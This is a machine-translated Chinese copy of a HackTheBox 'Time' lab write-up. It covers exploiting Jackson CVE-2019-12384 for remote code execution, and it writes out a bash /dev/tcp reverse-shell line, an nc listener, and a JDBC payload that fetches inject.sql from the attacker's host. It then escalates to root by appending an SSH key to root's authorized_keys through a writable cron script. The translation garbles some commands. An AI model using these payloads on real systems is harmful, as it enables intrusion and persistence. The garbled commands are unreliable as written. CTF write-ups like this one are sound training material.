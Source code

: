# HTB 时间[报道]

> 原文：<https://infosecwriteups.com/htb-time-writeup-1c5b51a82eb7?source=collection_archive---------7----------------------->

## RCE 和 SSRF 的脆弱性

![](img/66467b8cf0e046016e69edfad3e2cc76.png)

# 侦察和计数

Nmap TCP/UDP 扫描输出

![](img/9a896eca2829204b59c3de7d3f7a7e5c.png)

# 据点

************端口 80/TCP http Apache httpd 2 . 4 . 41(Ubuntu)* * * * * * * * * * * * ***

![](img/87c55e9de9ed711c1cba583e58fbd5e4.png)

这是一个在线 JSON 解析器站点。下拉菜单下有两个选项。(1.)美化(2。)Validate(beta！)

当我在美化文本框中输入一个简单的“测试这个网站”时，输出是 **Null。**

但是，当我在“Validate (beta！)”，它会抛出一些错误消息。

![](img/a66f3a88d87955d13a8ff5da4154ccb5.png)

**验证失败:未处理的 Java 异常 com . faster XML . Jackson . core . jsonparseexception:无法识别的标记“Test”:应为(“true”、“false”或“null”)**

在谷歌上搜索，我遇到了不少与“**com . faster XML . Jackson . core . jsonparseexception**”相关的 CVE。然而，在几次尝试使用他们的**步骤重现**后，对我有效的是**CVE-2019–12384。**这利用了 RCE 和 SSRF 的漏洞。

![](img/e734227a1e7dadee8c04dad0d497161e.png)

# 反向外壳

## 第一步

使用此[链接](https://github.com/jas502n/CVE-2019-12384)创建 **inject.sql** 漏洞利用文件并保存。

替换:

> *调用 shell exec(' id>exploited . txt ')*

随着

> *调用 shell exec(' bash-I>&/dev/TCP/*IP*/1234 0>&1’)*

**第二步**

从站点执行代码时，启动`python -m SimpleHTTPServer`获取 inject.sql 文件

当执行 **inject.sql** 文件时，启动`nc -lvnp <port>`来删除 shell。

**第三步**

在 JSON 解析器站点中执行下面的脚本。

> *[" ch . QoS . log back . core . db . drivermanagerconnectionsource "，{ " URL ":" JDBC:H2:mem:；TRACE _ LEVEL _ SYSTEM _ OUT = 3；INIT = run script FROM '*[*http://IP:PORT/inject . SQL '*](http://10.10.14.17:8765/inject.sql')*" }]*

![](img/300f0b8ab60ade7886005f30dae08c5c.png)

# 横向运动

在列举了当前用户之后，对我有用的工具是 pspy 32——它允许你看到其他用户运行的命令，cron 作业等，当它们执行时，不需要 root 权限。

使用这个工具，我发现/usr/bin/timer_backup.sh 在一段时间间隔后不断地被执行。

![](img/4500ea3d7e3b34261aef0e2079fbfc5d.png)![](img/3216a18518055f8d1e96301e5f1f988c.png)

该脚本的内容显示，它将 zip 文件移动到根文件夹。这意味着根文件夹中的文件可能会被完全权限执行。脚本**/usr/bin/timer _ backup . sh**有写权限。

![](img/19ba945526bef31f781bc4020653fdcf.png)

对于这台机器，我们还知道 SSH 端口是打开的。这意味着我们可以注入一个恶意代码，当它被执行时会给我们一个外壳。

# 权限提升

现在我们已经找到了攻击媒介，修改 **/usr/bin/timer_backup.sh** 脚本。

> *echo***echo*插入 SSH 公钥*** *> > /root/。ssh/authorized _ keys ">>/usr/bin/timer _ backup . sh*

![](img/ec5136dbc04dea441d7f159ae1710b63.png)

**端口 22/tcp SSH OpenSSH**

一旦成功注入，timer_backup.sh 脚本将被执行，并将本地主机的 SSH 公钥保存到机器根目录的 authorized_keys 文件中。这将允许我们从本地主机帐户登录，如下所示。

![](img/2575bb48011b22dc9be917b148a55fe6.png)![](img/522ce8b1a2e3ba84c9a2de2317792acb.png)

**成功了！！！**

# 参考

*   [https://github.com/redisson/redisson/issues/1780](https://github.com/redisson/redisson/issues/1780)
*   [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
*   [https://github.com/jas502n/CVE-2019-12384](https://github.com/jas502n/CVE-2019-12384)

# 我的其他 HTB 报道

*   [HTB·OMNI 报道——利用 SireRAT 开发 Windows 物联网核心](/htb-omni-writeup-7efdc6fd1c10)
*   [HTB·布莱克菲尔德撰文- ASREPRoast |字典攻击](/htb-blackfield-writeup-e7c3570aca00)
*   [HTB 文章-无限制文件上传| RCE |弱密码| d-bus 漏洞](/htb-passage-writeup-172490d4045e)
*   [HTB 学院报道-商业逻辑漏洞| ADM 集团](/htb-academy-writeup-bf518031e7f)
*   [HTB 医生特写-服务器端模板注入| Splunk 用友 RCE](/htb-doctor-writeup-61e589400875)
*   [HTB 工人报道-问题:打开 svn 端口>错误配置 svn 系统>无限制文件上传>错误配置设置](/htb-worker-writeup-74033203b785)
*   [HTB OpenKeyS writeup - OpenBSD 认证旁路| HTTP 头篡改|内核操作系统本地根漏洞利用](/htb-openkeys-writeup-531264648200)
*   [HTB 间谍邮件作者-群发邮件钓鱼| PyPi 包文件滥用| pip3](/htb-sneakymailer-writeup-bb32e94f593)
*   [HTB 总线报告-未经验证的 RCE |缓冲区利用|端口转发](/htb-buff-writeup-5d118ab695c0)
*   [HTB 虎斑猫记-目录遍历| LXD | RCE |弱密码](/htb-tabby-writeup-e5d25fb57329)
*   [HTB 熔丝报道-域控制器侦测|密码喷洒|暴力攻击| SeLoadDriverPrivilege Abuse](/htb-fuse-writeup-2c181d837b78)
*   [HTB 失策记- Bludit 3.9.2 密码暴力破解|安全策略绕过](/htb-blunder-writeup-6785bd826bfa)
*   [HTB 缓存写- SQL 注入| unauth Memcached 暴露凭证| Docker Linux 映像漏洞利用](/htb-cache-writeup-c3966ac8867c)
*   [HTB 远程报告- NFS 检查、CMS 利用、UsoSvc 服务权限利用](/htb-remote-writeup-eb18b1e09234)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！